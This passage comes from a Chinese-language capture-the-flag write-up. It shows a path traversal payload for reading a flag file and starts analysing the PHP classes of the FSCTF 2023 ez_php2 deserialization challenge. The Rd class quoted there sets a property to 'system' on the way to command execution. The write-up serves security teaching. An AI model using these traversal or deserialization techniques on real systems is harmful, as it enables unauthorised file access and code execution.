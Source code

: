 <font style="color:#000000;">构造 playload:</font>

```plain
?file=hint.php?/../../../../ffffllllaaaagggg
```

<font style="color:#000000;">拿到 flag</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737480162886-61e6f2f8-3a55-4f2c-90de-872ffd5f396f.png)

## <font style="color:#000000;">（二）</font><font style="color:#000000;">[FSCTF 2023]ez_php2</font>
<font style="color:#000000;">打开靶场发现以下 PHP 代码：</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737510177627-814a6d15-d95b-4dd3-9de6-2330be2977f9.png)

<font style="color:#000000;">先每个类进行分析</font>

<font style="color:#000000;">Class Rd:</font>

```php
Class Rd{
  public $ending;
  public $cl;
  public $poc;
  public function __destruct()
    {
      echo "All matters have concluded";
      die($this->ending);
    }
  public function __call($name, $arg)
    {
      foreach ($arg as $key =>$value)
        {
  
          if($arg[0]['POC']=="1111")
          {
            echo "1";
            $this->cl->var1 = "system";
          }
        }
    }
}
```

+ <font style="color:#000000;">先定义了三个变量：ending、c1、poc，且它们都是公有的</font>
+ <font style="color:#000000;">之后使用</font><font style="color:#000000;">__destruct</font><font style="color:#000000;">()魔术方法：</font><font style="color:#000000;">当对象被销毁时会触发这个方法</font>
    - <font style="color:#000000;">当对象被销毁后输出：All matters have concluded</font>
    - <font style="color:#000000;">结束代码</font>
+ <font style="color:#000000;">使用 _call()魔术方法：当调用一个不可访问的对象时会触发这个方法</font>
    - <font style="color:#000000;">这里它遍历参数，如果有某个键为 POC 且值为”1111“，则把 c1 的 var1 属性设置为”system“</font>

<font style="color:#000000;"></font>
